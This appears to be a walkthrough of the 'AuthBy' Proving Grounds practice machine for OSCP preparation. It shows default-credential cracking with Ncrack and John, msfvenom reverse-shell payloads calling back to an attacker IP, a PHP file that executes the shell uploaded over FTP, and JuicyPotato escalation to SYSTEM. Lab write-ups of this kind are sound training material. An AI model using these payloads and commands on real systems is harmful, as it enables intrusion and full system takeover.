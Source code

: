 ```yaml
---
title: AuthBy
date: 2024-02-15
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Windows
  - Intermediate
---
```


![info](./info.png)

# Recon
## Nmap
```
nmap -sC -sV -Pn 192.168.229.46
```
![nmap](./nmap.png)

Then, I will run a full port nmap scan
```
nmap -sC -sV -Pn --open -p- 192.168.229.46
```
![full-nmap](./full-nmap.png)

The full port scan reveals two extra ports, 242 and 3145.

## FTP - Port 21
From the nmap results, we can see that anonymous ftp login is allowed.
- use `anonymous` as the user and no password
- after logging in, check what users are available by looking into the accounts directory
```
ftp 192.168.229.46
```
![accounts](./accounts.png)

`Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`

### Ncrack
Ncrack is a powerful open-source network authentication cracking tool. It's designed to help assess and strengthen the security of networks by identifying weak credentials. 
Ncrack supports various protocols such as SSH, RDP, FTP, Telnet, HTTP(S), and more, making it versatile for testing a wide range of systems. With its robust and flexible features, Ncrack is the perfect
option to try and crack any default passwords now that we have a list of usernames.

I created a usernames.txt file with the following entries
```
admin
backup
Offsec
```

Then, running the following command reveals valid default credentials
```
ncrack -U usernames.txt -P /SecLists-master/Passwords/Default-Credentials/default-passwords.txt ./passwords.txt
```
![ncrack](./ncrack.png)

Login to the ftp console as admin
- then, use the command `mget *` in ftp to download all the files for the admin user
- there are three files, `.htaccess`, `.htpasswd` and `index.php`
- looking at all the files, `.htpasswd` has a password for the user offsec that we can crack using john
```
john --wordlist=/usr/share/wordlists/rockyou.txt .htpasswd
```

John successfully cracked the password for user offsec which is `elite`
- the password does not work for ftp login using username offsec, so we can try this credential for other services

## HTTP - Port 242
We can use the credentials `offsec:elite` to authenticate to the http
- using these credentials, we can run a gobuster scan with the `-U` and `-P` flags
```
gobuster dir -u http://192.168.229.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php -U offsec -P elite
```

The gobuster results show status code 200 for `index.php`, however, there aren't any other interesting results.

# Exploitation
We will be able to access files uploaded through admin user FTP. We can upload a reverse shell through FTP and then access it from the 
authenticated HTTP server

1. Create a msfvenom reverse shell for a Windows machine
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell.exe
```

2. Create a php file to run the reverse shell, otherwise, going to `/revshell.exe` will simply download the file
```
<?php
$exec = system('revshell.exe', $val)
?>
```

3. Now, log in as admin through FTP and use `mput` to upload the reverse shell and the run.php
![upload](./upload.png)

4. Start a nc listener with `nc -lnvp 1234`

5. Go to url `http://192.168.229.46/run.php` to trigger the php script that will run the reverse shell.
![foothold](./foothold.png)

We are able to get a foothold on the system as user livda\apache.

## Privilege Escalation
We can enumerate the system for useful information
```
whoami /all
```
![impersonate](./impersonate.png)

Also, get more detailed information on the system
![systeminfo](./systeminfo.png)

From the enumeration we can see that
- the `SeImpersonatePrivilege` is enabled
- the machine is running a Windows 2008 Server x86

We can use Juicy Potato found [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
- JuicyPotato requires a class ID (CLSID) which is unique to the operating system
- the website [here](https://ohpe.it/juicy-potato/CLSID/) helps us choose a CLSID, use the CLSID for Windows Server 2008 in this case

1. Clone the JuicyPotato.exe file and upload to the machine using admin FTP
2. Create another msfvenom reverse shell to use for juicy potato
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell2.exe
```
3. Upload the `revshell2.exe` using admin FTP
4. Run JuicyPotato using the first CLSID found on the website
```
Juicy.Potato.x86.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -l 1337 -p "C:\wamp\www\revshell2.exe"
```
![run](./run.png)
![result](./result.png)

The command works and we have a shell as nt authority\system.

# Summary
Reconnaissance:
- Conducted Nmap scan to identify open ports and services
- Discovered an FTP server with anonymous login enabled
- Used Ncrack to verify default credentials, gaining access to the FTP console
- Obtained hashed passwords from the FTP server

Initial Access:
- Cracked hashed passwords using John the Ripper
- Accessed an HTTP service using compromised credentials
- Utilized Gobuster to enumerate directories, discovering a potential upload functionality

Exploitation:
- Uploaded a crafted reverse shell through FTP
- Triggered the execution of the reverse shell via a PHP script on the HTTP server, gaining initial access to the system

Privilege Escalation:
- Leveraged the SeImpersonatePrivilege privilege and system information obtained through enumeration
- Exploited a known CLSID vulnerability using Juicy Potato
- Executed Juicy Potato with the appropriate CLSID, resulting in escalated privileges to nt authority\system

Join me for the next machine soon for more exciting challenges and security insights!

+20 points